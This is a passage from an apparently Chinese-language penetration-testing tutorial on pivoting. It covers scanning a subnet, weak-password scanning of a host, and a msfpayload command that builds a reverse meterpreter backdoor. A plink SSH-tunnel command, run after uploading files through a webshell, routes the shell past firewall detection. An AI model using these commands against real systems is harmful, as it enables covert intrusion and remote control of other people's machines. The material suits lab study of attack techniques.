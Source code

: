 再尝试扫描 5.5.5.0/24 这个段，然后对这个段中的 5.5.5.134 进行弱口令扫描。

![enter image description here](img/img18_u36_png.jpg)

发现可以获得结果。

**ssh/plink.exe**

还有一种利用 SSH 的方式就在 windows 下使用 plink 反弹,这样数据包经过 SSH 加密后，便可以躲过防火墙的检测。同理在 linux 也是一样的。 首先生成反弹到本地的 reverse 后门。

```
msfpayload windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=5566 >  ~/Desktop/backdoor_reverse_localhost.exe 
```

![enter image description here](img/img19_u4_png.jpg)

然后开启本地监听，再将 plink 和 backdoor.exe 通过 webshell 上传。然后执行

```
echo y | plink.exe -L 5566:192.168.6.131:6666 192.168.6.131 -l root -pw toor 
```

之后运行 backdoor.exe，meterpreter 就通过 ssh tunnel 建立起来了。
